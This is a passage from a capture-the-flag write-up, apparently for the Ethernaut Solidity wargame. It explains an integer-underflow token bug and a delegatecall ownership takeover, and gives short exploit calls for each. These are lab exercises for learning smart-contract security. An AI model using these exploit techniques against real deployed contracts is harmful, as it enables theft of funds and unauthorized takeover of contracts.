 ![Token method](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138020/61490e01f7f4c0dcaaa9366ce4607e17714ff36452e562e06c8bcd0d048c335a_df2hde.png)  

```js
 require(balances[msg.sender] - _value >= 0); // How about we pass a big value to this poor unsigned balances[msg.sender] ?
```

-----
**Exploitation**

We got 20 tokens, So I will be generous and give more than I own.

```js
 await contract.transfer(player,21);
```

Challenge solved ✅

## Delegation

**Challenge description**

The goal of this level is for you to claim ownership of the instance you are given.

--------
**Analysis** 

Here we are exposed to the `delegateCall` function. If you don't know what this function does I will try to sum it up. It's a low level way to call a method of a contract ( in our case `pwn` ) in the context of another, it means it gets the storage values and global ones of the contract who called `delegateCall`.

![Delegation pwn](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138021/2549219ff5c11b36a370c12f1dfd8326925489a9207074b29dfd7f83621353bc_m6k8pd.png)  

![Delegation fallback](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138019/7358cfd1b967281caa40f09ba74e6e9be2e11dce5bb005022749902ece0d530a_vpu7ji.png)  

Okay so what is *msg.data* ?
msg.data can be the function selector with the parameters in a bytes encoded format

-----
**Exploitation**

I wrote a contract to get the bytes, we can also use `web3.eth.abi.encodeFunctionCall` from the console.

```js
contract Utility {
     function pwnEncoded () public pure returns (bytes memory) {
      return abi.encodeWithSignature("pwn()"); 
    }
```

```js
await contract.sendTransaction({data:valueFromContract});
```
Challenge solved ✅
